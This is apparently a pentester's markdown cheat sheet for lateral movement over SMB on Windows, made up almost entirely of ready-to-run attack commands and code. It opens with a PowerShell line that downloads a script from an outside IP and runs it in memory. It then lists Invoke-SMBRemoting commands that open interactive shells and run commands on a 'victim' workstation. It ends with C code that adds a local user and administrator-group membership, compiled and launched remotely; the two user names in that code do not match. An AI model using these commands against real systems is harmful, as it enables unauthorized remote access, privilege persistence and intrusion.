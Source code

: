 # Powershell Implementation
*NOTE: We need admin access to SMB on the victim, can be abused using also injected kerberos ticket!*
- Invoke the script: `iex(iwr http://192.168.45.223/Invoke-SMBRemoting -UseBasicParsing)`

## Cheetsheet:
<ins>Interactive Shell</ins>
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose`

<ins>Command Execution</ins>
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose`

# EXE Implementation

Save the content below as `adduser.c`:

```
#include <stdlib.h>
int main ()
{
 int i;
    i = system ("net user amit Password123! /add");
    i = system ("net localgroup administrators salar /add");
 return 0;
}
```
Compile it:
- `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

Execute: 
- `.\PsExecLat file01 C:\Windows\Tasks\adduser.exe`
